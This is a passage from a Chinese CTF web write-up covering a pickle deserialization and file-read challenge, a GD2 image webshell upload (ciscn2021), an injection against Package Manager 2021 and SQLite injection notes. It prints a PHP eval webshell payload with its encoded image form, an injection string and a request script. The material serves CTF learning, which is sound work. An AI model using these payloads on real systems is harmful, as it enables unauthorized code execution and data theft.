```python
    "Cookie":"session={0}".format(cookie)
}
req = requests.get(url+"/admin",headers=headers)
req = requests.get(url+"/file?file=/tmp/dem",headers=headers)
print(req.text)
```

这个修复的话 一个是文件读取，一个就是反序列化，可以ban一下几个操作码R,IO等等，题目的意思还是比较简单的。

## 0x06 ciscn2021 upload

这个题目在当时比赛的时候也出了，其中zip的i用mb_string绕过这个没什么好说的

https://www.php.net/manual/en/function.mb-strtolower.php

在生成这个gd2的图片马的时候，其实我是卡了许久，因为当时做题的时候，题目环境是php7，不能用它原装payload得修改，我是直接用hxd在16进制改的，很容出错，很操蛋，但是我看见yu师傅的操作过程就很骚，稳妥。

![image-20220102130628742](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220102130628742.png)

把其中的input改成题目原本生成的，我们就可以拿到shellcode在编码之后的鸭子，然后我在010中去编辑它，把它变成想要的样子，注意最好使用覆盖的方法，而不是重写，这样会破坏图片的结构。然后

![image-20220102130758984](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220102130758984.png)

这里这个就是编辑后的payload

```
text_payload = b"<?=EVAL($_POST[1]);    ?>"
payload = b"a39f67641d201612546f112e29152b2167226b505050506f5f5310"
```

放在这里大家可以取用。剩下的就是基本操作可。

## 0x07 [2021祥云杯]Package Manager 2021

![image-20220102154230287](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220102154230287.png)

sql语句直接用拼接，神仙都救不了。

```
admin"||this.passsword[{}]="{}
```

## 0x08 [HarekazeCTF2019]Sqlite Voting

通过师傅的博客学一波:anquanke.com/post/id/222625#h3-6

sqlite注入学习。

记录几个sqlite的特性

1. 首先是`[]` 可以看到他<kbd>`</kbd>这个作用都是一样，标识关键字。
2. 和mysql中的information一样功能的数据库，sqlite也有[sqlite_master](https://www.sqlite.org/schematab.html)
![image-20220102164149765](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220102164149765.png)
